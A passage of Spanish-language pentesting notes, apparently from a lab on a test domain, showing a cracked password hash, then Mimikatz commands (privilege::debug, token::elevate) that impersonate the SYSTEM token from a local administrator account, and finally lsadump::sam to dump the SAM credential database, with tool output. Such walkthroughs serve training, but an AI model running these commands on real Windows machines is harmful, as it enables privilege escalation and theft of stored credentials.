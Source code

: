 Info:

```
?:Passw0rd

1 password hash cracked, 0 left
```

Ahora si nos volvemos al `Mimikatz` necesitariamos rango `System` para realizar ciertas cosas importantes, no nos valdria solo con ser `administrador` local, pero si somos `administradores` locales, podremos suplantar el `Access Token` del `System` para obtenernlo nosotros y hacernos pasar por dicho rango.

Vamos a poner lo siguiente en `mimikatz`:

```powershell
privilege::debug
```

Info:

```
Privilege '20' OK
```

Despues seguidamente pondremos lo siguiente:

```powershell
token::elevate
```

Info:

```
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

660     {0;000003e7} 0 D 48728          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;0023e015} 2 F 3275072     CORP\empleado1  S-1-5-21-3352250647-938130414-2449934813-1104   (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 0 D 3592987     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

Vemos que aqui esta suplantando el `Token de acceso` del `SYSTEM`:

```
NT AUTHORITY\SYSTEM Primary -> Impersonated !
```

Ahora nosotros en nuestro usuario de `empleado1` tenemos el `token` de `NT AUTHORITY\SYSTEM` por lo que nos estamos haciendo pasar por el y podremos realizar cosas en su rango.

Ahora nosotros podremos acceder a nuestra base de datos `SAM`:

```powershell
lsadump::sam
```
